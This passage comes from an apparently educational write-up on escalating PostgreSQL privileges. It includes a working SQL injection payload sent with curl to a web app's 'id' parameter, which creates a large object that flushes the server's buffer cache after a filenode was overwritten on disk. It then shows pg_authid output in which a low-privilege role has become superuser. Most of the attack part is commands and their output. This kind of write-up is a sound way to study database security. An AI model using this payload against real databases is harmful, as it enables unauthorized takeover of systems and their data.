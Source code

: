 <PRE>


So, we've just overwritten the Filenode on the disk! But the RAM cache
still has the old data. We must find a way to flush it somehow:

</PRE>
```sql
postgres=# SELECT * FROM pg_authid WHERE rolname='poc_user'; \x
-[ RECORD 1 ]--+------------------------------------
oid            | 16386
rolname        | poc_user
rolsuper       | f
rolinherit     | t
rolcreaterole  | f
rolcreatedb    | f
rolcanlogin    | t
rolreplication | f
rolbypassrls   | f
rolconnlimit   | -1
rolpassword    | md58616944eb80b569f7be225c2442582cd
rolvaliduntil  |
```
<PRE>


---[ 3.5 - Flushing Hot storage

So, you may be wondering - how can we force the server to clean the RAM
cache? How about creating a Large Object of a size matching the entire
cache pool? :DDDDD

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_from_bytea(33331337, (SELECT REPEAT('a', 128*1024*1024))::bytea)) AS text)"
[
    {"id":1337,"text":"33331337"}
]
```
<PRE>


The server took at least 5 seconds to process our query, which may
indicate our success. Let's check our permissions again:

</PRE>
```sql
postgres=# SELECT * FROM pg_authid WHERE rolname='poc_user'; \x
-[ RECORD 1 ]--+------------------------------------
oid            | 16386
rolname        | poc_user
rolsuper       | t
rolinherit     | t
rolcreaterole  | t
rolcreatedb    | t
rolcanlogin    | t
rolreplication | t
rolbypassrls   | t
rolconnlimit   | -1
rolpassword    | md58616944eb80b569f7be225c2442582cd
rolvaliduntil  |
```
<PRE>
